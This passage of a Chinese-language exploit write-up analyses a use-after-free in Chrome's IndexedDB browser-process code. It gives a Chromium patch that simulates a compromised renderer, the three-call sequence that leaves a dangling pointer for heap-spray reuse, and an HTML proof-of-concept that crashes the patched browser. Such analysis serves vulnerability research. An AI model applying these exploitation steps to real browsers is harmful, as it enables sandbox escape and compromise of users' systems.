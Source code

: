 执行 AbortTransactionsForDatabase 函数将会释放所有的 IndexedDBConnection 以及 IndexedDBTransaction，进而释放 IndexedDatabase 对象，如此就能达到我们想要释放某个 IndexedDatabase 对象的目的。

> 这里贴出 IndexedDBTransaction::Abort 函数的关键代码。请注意函数内部的注释。

```
// third\_party/blink/renderer/modules/indexeddb/web\_idb\_factory\_impl.cc
void WebIDBFactoryImpl::Open(
       std::make\_unique<IndexedDBDatabaseCallbacksImpl>(
           base::WrapUnique(database\_callbacks));
   DCHECK(!name.IsNull());
   factory\_->Open(GetCallbacksProxy(std::move(callbacks\_impl)),
                  GetDatabaseCallbacksProxy(std::move(database\_callbacks\_impl)),
                  name, version, transaction\_id);
+  if (version == 3) {
+    mojom::blink::IDBCallbacksAssociatedPtrInfo ptr\_info;
+    auto request = mojo::MakeRequest(&ptr\_info);
+    factory\_->DeleteDatabase(std::move(ptr\_info), origin, name, true);
+    factory\_->AbortTransactionsForDatabase(origin, base::OnceCallback<void(blink::mojom::IDBStatus)>());
+  }
 }
```

根据上面的分析，我们可以得出，当顺序调用这三个函数时，我们便可以成功使 database\_map 中保存一个指向已被释放内存的悬垂指针。

Open(db1)

DeleteDatabase(db1, force\_close=True)

AbortTransactionsForDatabase

之后，我们只需通过 Heap Spray 将这块被释放的内存重新分配回来即可利用。

但这里有个问题，如何在 render 进程中通过 IndexedDBFactory 来调用这三个函数呢？实际上，render 的 JS 接口可以调用 IndexedDB 的 open 和 deleteDatabase，但无法调用 AbortTransactionsForDatabase 接口。同时，这里存在一个问题，我们无法保证 browser 进程中的函数执行顺序如我们所期待的那样，因为 Js 中 IndexedDB 接口大多都是异步的，因此 browser 中的这三个函数可能无法依次、完全的完成执行。

但我们又必须在 render 进程中依次同步执行这三个函数，而这就是为什么该漏洞只能在 render RCE 的基础上利用的原因了。由于 render RCE 可以给 render 进程自己打上 patch，所以就可以在 render 进程中打 patch 以保证这三个函数可以被同步调用（即依次执行）。  

这也是为什么在环境搭建时要在 chrome 源码中打上 patch 的原因，因为手动打上 patch 可以模拟 render RCE 打 patch 的结果。

```
<html>

<head>
<script type="text/javascript">
async function poc() {
/\*
                在chrome进程中依次同步执行open、deleteDatabase以及AbortTransactionsForDatabase函数
                执行完成后将会产生一个悬垂指针
            \*/
await window.indexedDB.open("db1", 3);
// 尝试使用这个悬垂指针，应该会造成crash
window.indexedDB.deleteDatabase("db1");
        }
</script>
</head>

<body onload="poc()"></body>

</html>
```

